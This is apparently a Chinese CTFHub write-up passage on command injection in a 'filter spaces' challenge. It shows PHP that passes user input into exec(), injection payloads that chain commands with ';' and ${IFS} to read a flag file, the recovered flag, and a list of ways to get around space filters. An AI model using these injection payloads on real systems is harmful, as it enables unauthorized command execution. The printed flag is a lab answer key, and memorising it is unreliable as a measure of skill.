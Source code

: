 - cat 由第一行开始显示内容，并将所有内容输出 
- tac 从最后一行倒序显示内容，并将所有内容输出 
- more 根据窗口大小，一页一页的现实文件内容 
- less 和more类似，但其优点可以往前翻页，而且进行可以搜索字符 
- head 只显示头几行 
- tail 只显示最后几行 
- nl 类似于cat -n，显示时输出行号 
- tailf 类似于tail -f 



### 过滤空格

http://challenge-bce621b21462003c.sandbox.ctfhub.com:10800

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/ /", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

payload `127.0.0.1;ls` 

![image-20221126145515732](https://img.gyxnb.top/img/image-20221126145515732.png)

payload `127.0.0.1;cat${IFS}flag_182562319323842.php|base64`

```
PD9waHAgLy8gY3RmaHVie2UwNmE1ZDliZjE5Y2JlOTU3YjJhOWIzOH0K
```

base64解密得到flag 

<?php // ctfhub{e06a5d9bf19cbe957b2a9b38}

ctfhub{e06a5d9bf19cbe957b2a9b38}

#### 其他替换空格

使用`IFS$9、%09、<、>、<>、{,}、%20、${ IFS}、${IFS}`来代替空格 



### 过滤目录分隔符/

http://challenge-35a23d8d4560e5f2.sandbox.ctfhub.com:10800
